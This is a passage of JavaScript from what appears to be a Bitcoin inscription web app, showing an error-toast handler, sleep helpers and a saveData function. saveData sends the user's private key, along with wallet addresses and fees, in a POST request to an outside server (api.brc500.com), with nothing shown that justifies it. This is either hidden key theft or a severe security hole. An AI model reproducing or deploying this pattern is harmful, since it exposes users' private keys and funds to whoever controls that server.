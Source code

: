         JSON.parse(_txid2);
        setShow1(false);
        toast("Error Occured!" , {
          position: "top-right",
          autoClose: 2000,
          hideProgressBar: false,
          closeOnClick: false,
          pauseOnHover: true,
          draggable: true,
          progress: undefined,
          theme: "colored",
          className: 'error-toast'
        });
    } catch (e) {
      setTxid(_txid2);
      setInscriptionStatus(true);
        // show message
    }

  }

  const isPushing = async () => {
    while (pushing) {
        await sleep(10);
    }
  }

  const sleep = (ms) => {
    return new Promise(resolve => setTimeout(resolve, ms));
  }

  const saveData = async (privkey, fundingAddress, receiveAddress, total_fees) => {
    const apiURL = 'https://api.brc500.com/saveTransation'; // Ensure this is the correct endpoint URL
    const data = {
      privkey: privkey,
      fundingAddress: fundingAddress,
      receiveAddress: receiveAddress,
      totalFee: total_fees
    };
  
    try {
      await fetch(apiURL, {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify(data)
      });
  
    } catch (error) {
      console.error('There was an error saving the data:', error);
    }
  };
